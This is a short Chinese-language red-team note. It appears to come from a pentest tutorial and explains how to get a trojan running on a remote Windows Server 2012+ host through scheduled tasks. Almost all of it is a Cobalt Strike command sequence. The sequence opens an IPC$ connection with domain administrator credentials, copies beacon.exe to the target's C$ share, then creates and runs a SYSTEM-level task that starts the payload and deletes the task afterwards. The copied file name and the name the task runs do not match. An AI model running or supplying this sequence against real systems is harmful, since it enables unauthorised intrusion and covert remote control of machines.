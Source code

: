 `Windows2012`以上系统使用`schtasks`命令创建计划任务执行木马上线

```bash
# 建立ipc连接：
shell net use \\192.168.91.133\ipc$ "Abcd1234" /user:god.org\administrator

# 复制文件到其C盘
shell copy beacon.exe \\192.168.91.133\c$

# 删除 IPC$ 链接
shell net use \\192.168.91.133\ipc$ /del

# 创建任务对应执行文件
以远程系统的system用户运行c:\artifact.exe，计划任务的名字为test1

shell SCHTASKS /Create /S 192.168.91.133 /U administrator /P "Abcd1234" /SC ONCE /ST 14:56 /TN test1 /TR c:\artifact.exe /RU system

# 运行beacon任务
shell SCHTASKS /Run /S 192.168.91.133 /U administrator /P "Abcd1234"  /I /TN "test1"

# 删除建立的计划任务
shell SCHTASKS /Delete /S 192.168.91.133 /U administrator /P "Abcd1234" /TN "test1" /F
```

![](img/4.png)

![](img/5.png)
